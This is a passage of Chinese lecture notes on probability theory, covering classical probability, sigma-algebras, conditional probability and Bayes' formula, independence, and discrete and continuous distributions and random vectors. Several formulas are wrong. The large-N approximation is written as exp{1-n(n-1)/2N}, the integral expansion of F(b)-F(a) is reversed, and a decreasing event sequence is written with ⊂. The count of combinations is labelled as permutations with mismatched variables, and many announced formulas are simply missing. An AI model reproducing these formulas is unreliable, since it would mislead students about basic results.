- 可列可加性：若 \(A_1,A_2,\cdots\) 两两互斥，则 \(F_N(A_1\cup A_2\cup\cdots)=F_N(A_1)+F_N(A_2)+\cdots\)
古典概型¶
随机试验的每一基本结果称为样本点，记作 \(\omega\)，所有基本事件的全体称为样本空间，记为 \(\Omega\)。
古典概型的特征
- 样本空间是有限的，\(\Omega=\{\omega_1,\omega_2,\cdots,\omega_n\}\)，其中 \(\omega_i(I=1,2,\cdot，n)\) 是基本事件
- 每个基本事件发生的可能性相同，即 \(P(\omega_i)=\frac{1}{n}\)
古典概率的定义：
- 设试验有 \(n\) 个等可能的基本事件，而 \(A\) 事件恰包含其中 \(m\) 个基本事件，则 \(P(A)\) 定义为
古典概率的性质
从古典概型的定义可以看出概率有以下性质：
- 非负性：\(0\leqslant P(A)\leqslant 1\)
- 规范性：\(P(\Omega)=1\)
- 可列可加性：若 \(A_1,A_2,\cdots\) 两两互斥，则 \(P(A_1\cup A_2\cup\cdots)=P(A_1)+P(A_2)+\cdots\)
特别地，若 \(A\) 与 \(B\) 两事件互反（不可能同时发生且至少发生一个），则 \(P(A)=1 - P(B)\)
Example
设有 \(n\) 个球，\(N\) 个格子\((n \leqslant N)\)，球和格子都是可以区分的。每个球落在各格子内的概率相同（设格子足够大，可以容纳任意多个球），将这 \(n\) 个球随机地放入这 \(N\) 个格子中，求：
- 指定的 \(n\) 个格子中各有一个球的概率
- 有 \(n\) 个格子各有一球的概率
解： 1. \[P(A) = \frac{n!}{N^n}\] 2. $$ \begin{aligned} P(B) &= \frac{P^n_N}{N^n} = \frac{N(N-1)\cdots(N-n+1)}{N^n} \\ &= \left(1-\frac{1}{N}\right)\left(1-\frac{2}{N}\right)\cdots\left(1-\frac{n-1}{N}\right) \end{aligned} $$ 注意到 \(\log(1-x) = -x +O(x^2),x \rightarrow 0\). 我们有 $$ \begin{aligned} &\log \left(1-\frac{1}{N}\right)\left(1-\frac{2}{N}\right)\cdots\left(1-\frac{n-1}{N}\right)\\ &= \sum_{i=1}^{n-1}\log\left(1-\frac{i}{N}\right) = -\sum_{i=1}^{n-1}\frac{i}{N} + O\left(\frac{1}{N^2}\right)\\ &= -\frac{n(n-1)}{2N} + O\left(\frac{n^3}{N^2}\right) \end{aligned} $$ 故当 \(N\) 比 \(n\) 大得多时，可以采用近似计算公式 \[P(B) \approx \exp{1-\frac{n(n-1)}{2N}}\]
几何概率¶
若样本空间是一个包含无限个点的区域 \(\Omega\)（一维、二维或 \(n\) 维），样本点是区域中的一个点，此时用点数度量样本点的多少就毫无意义。若记事件 $A_g = $ {任取一个样本点，它落在区域 \(g \subset \Omega\) } ，则 \(A_g\) 的概率定义为 $$ P(A_g) = \frac{g 的测度}{\Omega 的测度} $$ 这样定义的概率称为几何概率。
概率的公理化定义¶
事件¶
- 事件一般用大写字母 \(A,B,C,\cdots\) 表示，事件的概率用 \(P(A),P(B),P(C),\cdots\) 表示。
- 样本空间 \(\Omega\) 也可看作一个事件，\(\Omega\) 是必然事件
- 类似地，把空集 \(\emptyset\) 也看作一个事件，\(\emptyset\) 是不可能事件
事件的运算
- \(A\) 包含 \(B\)（\(B\) 包含于 \(A\)）： \(A \supset B(B \subset A)\)
- \(A\) 与 \(B\) 相等： \(A = B\)，即 \(A \supset B\) 且 \(B \supset A\)
- \(A\) 与 \(B\) 的并： \(A \cup B = \{ \omega | \omega \in A 或 \omega \in B \}\)
- \(A\) 与 \(B\) 的交： \(A \cap B = \{ \omega | \omega \in A 且 \omega \in B \}\)
- \(A\) 与 \(B\) 的差： \(A \backslash B = \{ \omega | \omega \in A 且 \omega \notin B \}\)
- \(A\) 与 \(B\) 互不相容（互斥）： \(A \cap B = \emptyset\)，在此时有时用 \(A + B\) 代替 \(A \cup B\)
- \(A\) 与 \(B\) 不可能同时发生，且至少发生一个： \(A \cup B = \Omega, A \cap B = \emptyset\)，则称 \(A\) 与 \(B\) 互反（互为逆事件、对立事件、余事件），记作 \(B = A^c\) 或 \(B = \overline{A}\)
运算性质
- 交换律： \(A \cup B = B \cup A, A \cap B = B \cap A\)
- 结合律： $(A \cup B) \cup C = A \cup (B \cup C),~~ (A \cap B) $
- 分配律： \(A \cup (B \cap C) = (A \cup B) \cap (A \cup C),~~ A \cap (B \cup C) = (A \cap B) \cup (A \cap C)\)
- 对偶律（De Morgan律）： \(\overline{A \cup B} = \overline{A} \cap \overline{B},~~ \overline{A \cap B} = \overline{A} \cup \overline{B}\)
- \(A~ \backslash ~B = A\overline{B}\)
概率空间¶
概率空间包含三个要素。
第一个要素：样本空间 \(\Omega\)，是样本点 \(\omega\) 的全体，根据问题需事先取定。
第二个要素：事件域 \(\mathscr{F}\)，是 \(\Omega\) 中满足下列条件的子集的全体所组成的集合：
- \(\Omega \in \mathscr{F}\)
- 若 \(A \in \mathscr{F}\)，则 \(\overline{A} \in \mathscr{F}\)
- 若 \(A_1,A_2,\cdots, A_n, \cdots \in \mathscr{F}\)，则 \(\cup_{n=1}^{\infty}A_n \in \mathscr{F}\)
满足这三个条件的集合 \(\mathscr{F}\) 称为 \(\Omega\) 上的 \(\sigma\)-代数或 \(\sigma\)-域。\(\mathscr{F}\) 中的元素（\(\Omega\) 的子集）称为事件。
由这三个条件，可以推得事件域有下列性质：
- \(\emptyset \in \mathscr{F}\)（因为 \(\overline{\Omega} = \emptyset\)）
- 若 \(A_1,A_2,\cdots, A_n, \cdots \in \mathscr{F}\)，则 \(\cap_{n=1}^{\infty}A_n \in \mathscr{F}\)（因为 \(\overline{\cup_{n=1}^{\infty}A_n} = \cap_{n=1}^{\infty}\overline{A_n}\)）
- 若 \(A_1,A_2,\cdots, A_n \in \mathscr{F}\)，则 \(\cup_{i=1}^{n}A_i \in \mathscr{F}\)，\(\cap_{i=1}^{n}A_i \in \mathscr{F}\)
事件域也可根据问题选择，对同一样本空间 \(\Omega\) 可能有不同的 \(\sigma\)-代数。
- 如最简单的事件域 \(\mathscr{F}_1 = \{ \emptyset, \Omega \}\)，称为平凡 \(\sigma\)-代数。
-
复杂的如 \(\mathscr{F}_2 =\) { \(\Omega\) 的一切子集 }。
-
若 \(\Omega\) 由有限或可列个样本点组成，则常取 \(\Omega\) 的一切子集所成的集类作为 \(\mathscr{F}\)
- 若 \(\Omega = \mathbf{R}\)（一维实数全体），此时常取一切左开右闭有界区间和它们的（有限或可列）并、（有限或可列）交、逆所成的集的全体为 \(\mathscr{F}\)（通常记为 \(\mathscr{B}\)）称为一维波雷尔（Borel）\(\sigma\)-代数，其中的集称为一维波雷尔集，它是比全体区间大得多的一个集类。
- 若 \(\Omega = \mathbf{R}^n\)（\(n\) 维实数全体），则常取一切左开右闭有界 \(n\) 维矩形和它们的（有限或可列）并、（有限或可列）交、逆所成的集的全体为 \(\mathscr{F}\)（通常记为 \(\mathscr{B}^n\)），称为 \(n\) 维波雷尔 \(\sigma\)-代数，其中的集称为 \(n\) 维波雷尔集。
如果我们对 \(\Omega\) 的某个子集类 \(\mathscr{C}\) 感兴趣，所选的事件域 \(\mathscr{F}\)（可以是包含 \(\mathscr{C}\) 的最小 \(\sigma\)-代数，这种 \(\sigma\)-代数是存在的，因为：
- 至少有一个包含 \(\mathscr{C}\) 的 \(\sigma\)-代数，即上述 \(\mathscr{F}_2\)
- 若有很多包含 \(\mathscr{C}\) 的 \(\sigma\)-代数，则它们的交也是 \(\sigma\)-代数，且就是最小的。
特别地，如果我们只对 \(\Omega\) 的一个子集 \(A\) 感兴趣，我们可以取包含 \(A\) 的最小 \(\sigma\)-代数。 \(\(\mathscr{F} = \{ \emptyset, A, \overline{A}, \Omega \}\)\)
第三个要素：概率 \(P\)
概率的定义
概率 \(P\)是定义在事件域 \(\mathscr{F}\) 上的实值集函数，满足以下三个条件：
- 非负性：\(P(A) \geqslant 0，A \in \mathscr{F}\)
- 规范性：\(P(\Omega) = 1\)
- 可列可加性：若 \(A_1,A_2,\cdots, A_n, \cdots \in \mathscr{F}\) 两两互斥，则 $$ P(\sum_{n=1}^{\infty}A_n) = \sum_{n=1}^{\infty}P(A_n) $$
用测度论的语言来说，概率 \(P\) 是定义在 \(\sigma\)-代数上的规范化的测度。
三元体（\(\Omega, \mathscr{F}, P\)）称为概率空间。
概率的运算公式
- \(P(\emptyset) = 0\)
- 若 \(A_i A_j = \emptyset, i,j=1, 2, \cdots, n, i \neq j\)，则
- \(P(\overline{A}) = 1 - P(A)\)
- 若 \(B \subset A\) 则 \(P(A-B) = P(A) - P(B)\)
- \(P(A \cup B) = P(A) + P(B) - P(A \cap B)\)
- \(P(A \backslash B) = P(A) - P(AB)\)
- (多还少补定理)
- （次可列可加性）
概率测度的连续性¶
给定概率空间 \((\Omega, \mathscr{F}, P)\)，若 \(A_1, A_2, \cdots\) 是一列单调增加的事件序列，即
记 \(A = \bigcup_{n=1}^{\infty} A_n\)，称 \(A\) 为事件序列 \(A_n\) 的极限事件。从公理化定义可以看出，\(A\) 仍然是一个事件。下面定理给出该事件的概率大小
定理1.1
若 \(A_1, A_2, \cdots\) 是一列单调增加的事件序列，具有极限 \(A\)，则
对一列单调增加的事件 $ A_1 \subset A_2 \subset \cdots $，记 \(\lim \limits_{n \to \infty} A_n = \bigcup_{n=1}^{\infty} A_n\)，则上述定理说明 $$ P(\lim_{n \to \infty} A_n) = \lim_{n \to \infty} P(A_n) $$ 所以我们说概率具有连续性。
如果 $ A_1 \subset A_2 \subset \cdots $ 是一个单调减少的事件序列，记 \(\lim \limits_{n \to \infty} A_n = \bigcap_{n=1}^{\infty} A_n\)，那么同样有 $$ P(\lim_{n \to \infty} A_n) = \lim_{n \to \infty} P(A_n) $$ 为了进行区分，我们将前者称为概率的上连续性，后者称为概率的下连续性。
事件的上极限和下极限¶
事件是样本点的集合，事件的上极限和下极限就是这个样本点集合的极限。
对于一个事件序列，我们可以更一般地定义它的上极限和下极限
事件的上极限和下极限
对于事件序列 $ { A_n }_{n=1}^{\infty} = A_1 ,\enspace A_2, \cdots $，我们定义
为它的上极限， $$ \liminf_{n \to \infty} A_n = \bigcup_{n=1}^{\infty} \bigcap_{k=n}^{\infty} A_k $$
为它的下极限。
容易验证 $ \liminf \limits_{n \to \infty} A_n \subset \limsup \limits_{n \to \infty} A_n$
如果 $ \liminf \limits_{n \to \infty} A_n = \limsup \limits_{n \to \infty} A_n$，就称 \(A_n\) 的极限存在，并记作 \(\lim \limits_{n \to \infty} A_n\)
- 事件序列的上极限是事件的先并后交，可以认为是所有并集的交
- 事件序列的下极限是事件的先交后并，可以认为是所有交集的并
条件概率与事件的独立性¶
条件概率¶
设 \(A,B\) 是两个事件，且 \(P(B) > 0\)，则在事件 \(B\) 发生的条件下，事件 \(A\) 发生的概率称为事件 \(A\) 关于事件 \(B\) 的条件概率，记作 \(P(A|B)\)
在某种情况下，条件的附加意味着对样本空间的压缩，相应的概率可在压缩的样本空间内直接计算。
定义
对任意事件 \(A\) 和 \(B\)，若 \(P(B) \neq 0\)，则“在事件 \(B\) 发生的条件下 \(A\) 发生的条件概率”，记作 \(P(A|B)\)，定义为 \(\(P(A|B) = \frac{P(AB)}{P(B)}\)\) 反过来也可用条件概率表示 \(A, B\) 的乘积概率，即有乘法公式 $$ P(AB) = P(A|B)P(B) , P(B) \neq 0 $$ 或 $$ P(AB) = P(B|A)P(A) , P(A) \neq 0 $$
全概率公式与贝叶斯公式¶
定义1.3
若事件列 $ \{ A_1, A_2 \cdots, A_n \cdots \} $ 满足下列两个条件
- $A_i, i=1, 2, \cdots $ 两两互不相容，且 \(P(A_i) > 0\)
- \(\sum_{i=1}^{\infty}A_i = \Omega\)
则称 $ { A_1, A_2 \cdots, A_n \cdots } $ 为 \(\Omega\) 的一个完备事件组，也称为 \(\Omega\) 的一个分割。
- 最简单的完备事件组是 \(\{ A, \overline{A}\}\)
定理1.2（全概率公式）
设 $ { A_1, A_2 \cdots, A_n \cdots } $ 是 \(\Omega\) 的一个完备事件组，\(B\) 是任一事件，则 $$ P(B) = \sum_{i=1}^{\infty}P(A_i)P(B|A_i) $$
- 概率公式的意义在于，它把事件 \(B\) 的概率 \(P(B)\) 分解为若干个条件概率的乘积之和。
贝叶斯公式
设 $ \{ A_1, A_2 \cdots, A_n \cdots \} $ 是 \(\Omega\) 的一个完备事件组，\(B\) 是任一事件，且 \(P(B) > 0\)，则 $$ P(A_i|B) = \frac{P(A_i)P(B|A_i)}{\sum_{k=1}^{\infty}P(A_k)P(B|A_k)} $$
- \(P(A_i)\) 是没有进一步的信息（不知道 \(B\) 是否发生）时，对 \(A_i\) 概率的估计，称为先验概率
-
\(P(A_i|B)\) 是在事件 \(B\) 发生后对 \(A_i\) 发生概率的估计，称为后验概率
-
全概率公式：“由原因推结果”
- 贝叶斯公式：“由结果推原因”
事件独立性¶
两个事件的独立性¶
- 当 \(P(A|B) = P(A)\) ,即 \(P(AB) = P(A)P(B)\) 时，称事件 \(A\) 与事件 \(B\) 统计独立，或 \(A\) 与 \(B\) 独立，记作 \(A \perp B\)。
- 当 \(A\) 与 \(B\) 不独立时，也称 \(A\) 与 \(B\) 统计相依。
例题
求证：若 \(A\) 与 \(B\) 互不相容，且 \(P(A)P(B) \neq 0\)，则 \(A\) 与 \(B\) 不独立。 证明：\(A\) 与 \(B\)不相容，则 \(P(AB) = 0 \neq P(A)P(B)\)，故 \(A\) 与 \(B\) 不独立。
已知 \(A\) 与 \(B\) 独立，求证 \(A\) 与 \(\overline{B}\)，\(\overline{A}\) 与 \(B\)，\(\overline{A}\) 与 \(\overline{B}\) 也独立。 证明：由 \(A\) 与 \(B\) 独立，有 \(P(AB) = P(A)P(B)\)，从而 $$ \begin{aligned} P(A\overline{B}) &= P(A) - P(AB) = P(A) - P(A)P(B) \\ &= P(A) - P(A)P(B) = P(A)(1-P(B)) \\ &= P(A)P(\overline{B}) \\ \end{aligned} $$
多个时间的独立性¶
定义1.5
若 $$ \begin{cases} P(AB) = P(A)P(B) \\ P(AC) = P(A)P(C) \\ P(BC) = P(B)P(C) \end{cases} $$ 且 \(P(ABC) = P(A)P(B)P(C)\) 则称事件 \(A, B, C\) 相互独立。
定义1.6
若对一切可能的组合 \(1 \leqslant i < j < k < \cdots \leqslant n\)，有 $$ \begin{cases} P(A_iA_j) = P(A_i)P(A_j)\\ P(A_iA_jA_k) = P(A_i)P(A_j)P(A_k)\\ \cdots \\ P(A_iA_jA_k\cdots A_n) = P(A_i)P(A_j)P(A_k) \cdots P(A_n) \end{cases} $$ 就称 \(A_1, A_2, \cdots, A_n\) 相互独立。
试验的独立性¶
与事件的独立性密切相关的是随机试验的独立性。
- 一般来说，若有 \(n\) 个试验 \(E_1, E_2, \cdots, E_n\)，每个试验的每个结果都是一个事件。如果 \(E_1\) 的任一事件都与 \(E_2\) 的任一事件与 \(\cdots\) 与 \(E_n\) 的任一事件相互独立，就说 \(E_1, E_2, \cdots, E_n\) 相互独立
- 记 \(E_i\) 的样本空间为 \(\Omega_i\) 为描述这 \(n\) 次试验，要构造复合试验 \(E = (E_1, E_2, \cdots, E_n)\) 对应的样本空间为 \(\Omega = \Omega_1 \times \Omega_2 \times \cdots \times \Omega_n\) 是 \(n\) 个样本空间的直积
- \(E\) 中的样本点 \(\omega = (\omega^{(1)}, \cdots, \omega^{(n)})\)，其中 \(\omega^{(i)} \in \Omega_i\)
若 \(A^{(i)}\) 为 \(E_i\) 的任一事件，对一切 \(A^{(1)}, A^{(2)}, \cdots, A^{(n)}\) 均有 $$ P(A^{(1)}A^{(2)} \cdots A^{(n)}) = P(A^{(1)})P(A^{(2)}) \cdots P(A^{(n)})$$
伯努利概型¶
- 若一次随机试验\(E\)只有\(A\)与\(\overline{A}\)两种相反的结果（是与否，成功与失败等），就称其为伯努利试验。对于\(n\)次重复独立的伯努利试验，这种概率模型称为伯努利概型。
二项分布：\(n\) 次伯努利试验中事件 \(A\) 恰好发生 \(k\) 次的概率为（设 \(A\) 的概率为 \(p\)，\(\overline{A}\) 发生的概率为 \(q\) ） $$ b(k, n, p) = \binom{n}{k} p^k q^{n-k} = \frac{n!}{k!(n-k)!} p^k q^{n-k}, k=0, 1, \cdots, n $$
补充与注记¶
从\(n\)个不同物件中取\(k\)个\((1 \leqslant r \leqslant n)\)的不同排列总数为 $$ P^r_n = n(n-1)(n-2) \cdots (n-r+1) $$
- 特别的，若\(r=n\)，有 \(P^r_r = r(r-1) \cdots 1 = r!\)，将其称为全排列。
- 人们常约定把 \(0!\) 作为 \(1\)。
从\(n\)个不同物件中取\(k\)个\((1 \leqslant r \leqslant n)\)的不同排列总数为 $$ \binom{n}{r} = \frac{P^r_n}{r!} = \frac{n!}{r!(n-r)!} $$
组合数也常称为二项式系数 $$ (a+b)^n = \sum^n_{i=0} \binom{n}{i} a^i b^{n-i} $$
一些常用的公式： $$ \binom{n}{0} + \binom{n}{1} + \cdots + \binom{n}{n} = 2^n $$ $$ \binom{n}{0} - \binom{n}{1} + \cdots + (-1)^n \binom{n}{n} = 0 $$ $$ \binom{n}{k-1} + \binom{n}{k} = \binom{n+1}{k} $$ $$ \binom{m+n}{k} = \sum_{i=0}^k \binom{m}{i}\binom{n}{k-i} $$ $$ \sum_{i=0}^n \binom{n}{i} \binom{n}{i} = \binom{2n}{n} $$
第二章 随机变量与分布函数¶
约 3091 个字 预计阅读时间 12 分钟
离散型随机变量及其分布¶
随机变量的概念¶
回顾第一章的内容，我们把由直线上一切左开右闭区间和它们经过有限或可列次交、并、逆等运算得到的点集\(B\)称为（一维）波雷尔集，包括有限或无限的开区间、闭区间、半开半闭区间，以及它们的有限个或可列个交、并。并且我们还把波雷尔集的全体 \(\mathcal{B}\) 称为波雷尔域。
根据上面的说明，我们可以给出随机变量在数学上的严格定义
随机变量
设 \(\xi(\omega)\) 是定义在概率空间 $ { \Omega, \mathscr{F}, P } $ 上的单值实函数，即 $$ \xi: \Omega \mapsto \mathbb{R} $$ 且对于 \(\mathbf{R}\) 上的任一波雷尔集 \(B\)，有 $$ \xi^{-1}(B) = \{ \omega: \xi(\omega) \in B \} \in \mathscr{F} $$ 即 \(\xi(\omega)\) 的任意取值对应的样本点的集合（构成一个事件）都在事件域 \(\mathscr{F}\) 中，那么就称 \(\xi(\omega)\) 为随机变量，称 $ \{ P(\xi(\omega)) \in B \}, B \in \mathcal{B} $ 为随机变量 \(\xi(\omega)\) 的概率分布
也就是说，我们把 \(\xi\) 看作一个函数，它把一个事件映射到一个实数上去。我们希望当我们对一些事件进行运算时，它的值域 \(A(\in R)\) 也能满足这些事件运算的性质，因此我们要求值域是一个波雷尔集，落在波雷尔域 \(\mathcal{B}\) 中
离散型随机变量¶
离散型随机变量
若随机变量 \(\xi\) 可能的取值至多可列个（有限个或可列无限个），则称 \(\xi\) 为离散型随机变量
对于离散型随机变量，关键在于它的分布列，即它的取值和对应的概率
显然，分布列具有性质：
- \(p_i > 0, i = 1, 2, \cdots\)
- \(\sum\limits_{i=1}^{\infty} p_i = 1\)
常见的离散型随机变量
若随机变量 \(\xi\) 只取一个值 \(x_0\)，即 \(P(\xi = x_0) = 1\)，则称 \(\xi\) 服从退化分布，也称单点分布。
伯努利分布是一种特殊的两点分布，也称0-1分布
$$ P(\xi = k) = \binom{n}{k} p^k q^{n-k}, \enspace p,q > 0, \enspace p+q=1$$ 记作 \(\xi \sim B(n,p)\)，\(n\) 和 \(p\) 称为它的两个参数
$$ P(\xi = k) = \frac{\lambda^k}{k!}e^{-\lambda} ,\lambda>0,\enspace k\in \mathbb{N} $$ 记作 \(\xi\sim\mathcal{P}(\lambda)\)
对于二项分布，如果当 \(n \to \infty\) 时，有 \(np_n \to \lambda\) ，则二项分布趋近于泊松分布。
记 \(\lambda_n = np_n\)，则 \(p_n = \lambda_n / n\)，对于固定的 \(k\)
常用于解决寻找第一次成功的问题
常用于解决次品抽样问题，当 \(N\) 很大时，超几何分布就可以用二项分布来近似计算
分布函数与连续型随机变量¶
分布函数¶
离散型随机变量用分布列来表示其概率分布，但其他随机变量不具有分布列，例如一个随机变量可取的值为某区间内的任意值，此时就无法一一罗列这些值及其概率，因此我们引入新的方法来描述概率分布，并且我们希望这个描述方法能够对一切的随机变量都适用。
分布函数
设 \(\xi\) 是一个随机变量，对任意实数 \(x\)，定义函数 \(F(x)\) 为 $$ F(x) = P(\xi \leqslant x) $$ 则称 \(F(x)\) 为随机变量 \(\xi\) 的分布函数。对于一个给定的随机变量，其分布函数是唯一确定的，它是实变量 \(x\) 的函数。
分布函数具有以下性质： - \(F(x)\) 是一个单调不减函数：若 \(x_1 < x_2\)，则 \(F(x_1) \leqslant F(x_2)\) - 有界性：\(0 \leqslant F(x) \leqslant 1\) - \(\lim\limits_{x \to -\infty} F(x) = 0, \lim\limits_{x \to +\infty} F(x) = 1\) - \(F(x)\) 是右连续的，\(F(x+0) = F(x)\)
为了方便起见，我们常把\(\lim\limits_{x \to -\infty} F(x)\) 和 \(\lim\limits_{x \to +\infty} F(x)\) 简写为 \(F(-\infty)\) 和 \(F(+\infty)\)
Tip
- 对于离散型随机变量，其分布函数是阶梯函数
- 对于连续型随机变量，其分布函数是连续函数，可以利用密度函数的积分来计算
- 只要某个函数具有上面的几条性质，那么它就一定可以作为某个随机变量的分布函数
连续型随机变量及密度函数¶
连续型随机变量
若随机变量 \(\xi\) 可取某个区间（有限或无限）中的一切值，并且存在某个非负的可积函数 \(p(x)\)，使得分布函数 \(F(x)\) 满足 $$ F(x) = \int_{-\infty}^{x} p(t) \mathrm{d}t , \quad -\infty < x < \infty $$ 则称 \(\xi\) 为连续型随机变量，函数 \(p(x)\) 称为 \(\xi\) 的概率密度函数，简称为密度函数。
连续性随机变量的分布函数具有以下良好的数学性质：
连续性随机变量的分布函数的性质
-
F(x) 在 \(p(x)\) 的连续处可导
\[ F'(x) = p(x) \] -
只要给出密度函数 \(p(x)\)，就可以求出 \(\xi\) 落在区间 \((a,b]\) 内的概率
\[ \begin{aligned} P(a < \xi \leqslant b) &= F(b) - F(a) \\ &= \int_{-\infty}^{a} p(x) \mathrm{d}x - \int_{-\infty}^{b} p(x) \mathrm{d}x \\ &= \int_{a}^{b} p(x) \mathrm{d}x \end{aligned} \]由此对于 \(\mathbb{R}\) 上的一切波雷尔集 \(B\)，都可以通过 \(p(x)\) 来计算概率 \(P(\xi \in B) = \int_{B} p(x) \mathrm{d}x , \quad B \in \mathcal{B}\)
-
对于任一常数 \(c\)，有
\[ P(\xi = c) = F(c) - F(c-0) = \lim_{h \to o^+} \int_{c-h}^c p(x) \mathrm{d}x = 0 \]
密度函数还具有如下性质：
- 非负性：$$ p(x) \geqslant 0 $$
- 规范性：$$ \int_{-\infty}^{+\infty} p(x) \mathrm{d}x = 1 $$
常见的连续型随机变量¶
均匀分布¶
对 \(a < b\)，称随机变量 \(\xi\) 服从区间 \([a,b]\) 上的均匀分布（uniform distribution），如果它的密度函数为
简记作 \(\xi \sim U(a,b)\)，其分布函数为
正态分布¶
若随机变量 \(\xi\) 的密度函数为 $$ p(x) = \dfrac{1}{\sqrt{2\pi}\sigma} e^{-\frac{(x-a)^2}{2\sigma^2}} $$ 则称 \(\xi\) 服从参数为 \(a\) 和 \(\sigma^2\) 的正态分布（normal distribution），也称高斯分布，简记作 \(\xi \sim N(a,\sigma^2)\)
正态分布的分布函数无法用初等函数表示，但可以用积分表达式表示 $$ F(x) = \dfrac{1}{\sqrt{2\pi}\sigma} \int_{-\infty}^{x} e^{-\frac{(t-a)^2}{2\sigma^2}} \mathrm{d}t $$
- 正态分布的密度函数的图像是一个钟形曲线，关于直线 \(x=a\) 对称，即 \(p(x) = p(2a-x)\)，且在 \(x=a\) 处取得最大值 \(\dfrac{1}{\sqrt{2\pi}\sigma}\)，
- 正态函数的数学期望为 \(a\)，方差为 \(\sigma^2\)
标准正态分布
当 \(a=0\)，\(\sigma=1\) 时，则称 \(\xi\) 服从标准正态分布（standard normal distribution），记作 \(\xi \sim N(0,1)\)
此时的密度函数为 $$ p(x) = \dfrac{1}{\sqrt{2\pi}} e^{-\frac{x^2}{2}} $$
如果 \(\xi\) 是服从正态分布 \(N(a,\sigma^2)\) 我们可以通过如下的变换来将其转化为标准正态分布 $$ \eta = \dfrac{\xi - a}{\sigma} \sim N(0,1) $$
3\(\sigma\)原则
对于一般的正态分布 \(\xi \sim N(a,\sigma^2)\)，令 \(\eta = \dfrac{\xi - a}{\sigma}\)，则有
这说明正态随机变量的值几乎都落在 \(（a - 3\sigma, a + 3\sigma）\) 区间内，在实际应用中，我们就认为不可能落在这个区间之外。
指数分布¶
指数分布的密度函数为 $$ p(x) = \begin{cases} \lambda e^{-\lambda x}, & x \geqslant 0 \ 0, & x < 0 \end{cases} $$ 其中 \(\lambda > 0\)，称 \(\xi\) 服从参数为 \(\lambda\) 的指数分布（exponential distribution），记作 \(\xi \sim E(\lambda)\)
指数分布的分布函数为 $$ F(x) = \begin{cases} 1 - e^{-\lambda x}, & x \geqslant 0 \ 0, & x < 0 \end{cases} $$
指数分布的数学期望为 \(\dfrac{1}{\lambda}\)，方差为 \(\dfrac{1}{\lambda^2}\)
指数分布具有类似于几何分布的无记忆性
还可以证明，指数分布是具有上述性质的唯一的连续型分布
其他常见的几种连续性随机变量¶
常见的随机变量可以从这里查阅到。
若随机变量 \(\xi\) 的密度函数为
其中 \(\Gamma(r)\) 是第一型欧拉积分，则称 \(\xi\) 服从参数为 \(\lambda\) 和 \(r\) 的\(\Gamma\) 分布，记作 \(\xi \sim \Gamma(\lambda, r)\)
当 \(r\) 为整数时也称爱尔兰分布，特别地，当 \(r = 1\) 时，\(\Gamma\) 分布就是指数分布
若随机变量 \(\xi\) 的密度函数为
则称 \(\xi\) 服从参数为 \(a\) 和 \(b\) 的\(\beta\) 分布，记作 \(\xi \sim \beta(a, b)\)。
其中 \(a,b>0\)，\(B(a,b) = \int_0^1 x^{a-1} (1-x)^{b-1} \mathrm{d}x\) 是 \(\beta\) 积分， $$ B(a,b) = \dfrac{\Gamma(a+b)}{\Gamma(a)\Gamma(b)} $$
柯西分布的密度函数为 $$ p(x) = \dfrac{1}{\pi} \dfrac{1}{1+(x-\theta)^2}, \quad -\infty < x < +\infty $$ 其中参数 $-\infty < \theta < +\infty $
卡方分布是多个独立标准正态分布的平方和的分布，记作 \(\xi \sim \chi^2(n)\)，其密度函数为
$$ p(x) = \begin{cases} \dfrac{1}{2^{n/2}\Gamma(n/2)} x^{n/2-1} e^{-x/2}, & x \geqslant 0 \\ 0, & x < 0 \end{cases} $$ 其中 \(n\) 为自由度
随机向量¶
随机向量
若随机变量 \(\xi_1(\omega), \xi_2(\omega), \cdots, \xi_n(\omega)\) 都定义在同一个概率空间上，则称 \(\boldsymbol{\xi} = \left(\xi_1, \xi_2, \cdots, \xi_n \right)\) 为 \(n\) 维随机向量，或 \(n\) 维随机变量，简称随机向量
离散型随机向量¶
如果随机向量只能取有限组或可列组值，就称它为离散型随机向量。对于离散型随机向量，我们同样可以用分布列来描述其概率分布。
一般地，离散型的二维联合分布列为 $$ P(\xi = x_i, \eta = y_j) = p_{ij}, \quad i,j = 1,2,\cdots $$ 记作 \(p(x_i, y_j) = p_{ij}\)
\(n\) 维离散性向量的联合分布是 $$ P(\xi_1 = x_{i_1}, \xi_2 = x_{i_2}, \cdots, \xi_n = x_{i_n}) = p(x_{i_1}, x_{i_2}, \cdots, x_{i_n}) = p_{i_1i_2\cdots i_n} $$ 其中 \(i_1, i_2, \cdots, i_n = 1,2,\cdots\)
对于上式，一定满足如下性质：
边际分布
以二维离散型随机向量 \((\xi, \eta)\) 为例，\(\xi\) 和 \(\eta\) 的边际分布列分别为 $$ p_{i\cdot} = P(\xi = x_i) = \sum_{j} p_{ij}, \quad i = 1,2,\cdots $$ $$ p_{\cdot j} = P(\eta = y_j) = \sum_{i} p_{ij}, \quad j = 1,2,\cdots $$
对于离散型随机向量，它的边际分布就是将联合分布列中的另一个变量固定，对另一个变量求和得到的分布列
Warning
当联合分布给定时，边际分布唯一确定；但反过来，边际分布给定时，联合分布未必唯一确定，还需要考虑各个分量之间的关系
分布函数¶
随机向量的分布函数
对任意的 \((x_1, \cdots, x_n) \in \mathbb{R}\)，称 \(n\) 元函数 $$ F(x_1, \cdots, x_n) = P(\xi_1(\omega) \leqslant x_1, \cdots, \xi_n(\omega) \leqslant x_n) $$ 为随机向量 \(\xi(\omega) = \left( \xi_1(\omega), \cdots, \xi_n(\omega) \right)\) 的联合分布函数
联合分布函数具有如下性质：
Property
- 对每个变量单调不减
- 对每个变量右连续
-
对任意 \((x,y)\)
\[ F(x, -\infty) = 0, \quad F(-\infty, y), \quad F(\infty, \infty) \] -
因为概率一定不小于零，因此对于任意实数 \(a_1 < b_1, a_2 < b_2\) 有
\[ F(b_1, b_2) - F(a_1, b_2) - F(b_1, a_2) + F(a_1, a_2) \geqslant 0 \]
连续型随机向量¶
若存在 \(n\) 元可积的非负函数 \(p(x_1, \cdots, x_n)\)，使 \(n\) 元分布函数可表示为 $$ F(x_1, \cdots, x_n) = \int_{-\infty}^{x_1} \cdots \int_{-\infty}^{x_n} p(y_1, \cdots, y_n) \mathrm{d}y_1 \cdots \mathrm{d}y_n $$
则称它是连续型分布，并称 \(p(x_1, \cdots, x_n)\) 为（联合）密度函数。显然密度函数具有如下的性质：
- \(p(x_1, \cdots, x_n) \geqslant 0\)
-
\[ \int_{-\infty}^{\infty} \cdots \int_{-\infty}^{\infty} p(y_1, \cdots, y_n) \mathrm{d}y_1 \cdots \mathrm{d}y_n = 1\]
-
\[ \dfrac{ \partial^n F(x_1, \cdots, x_n) }{ \partial x_1 \cdots \partial x_1 } = p(x_1, \cdots, x_n) \]
边际分布
仍以二维随机向量 \((\xi, \eta)\) 为例，\(\xi\) 和 \(\eta\) 的边际分布列分别为
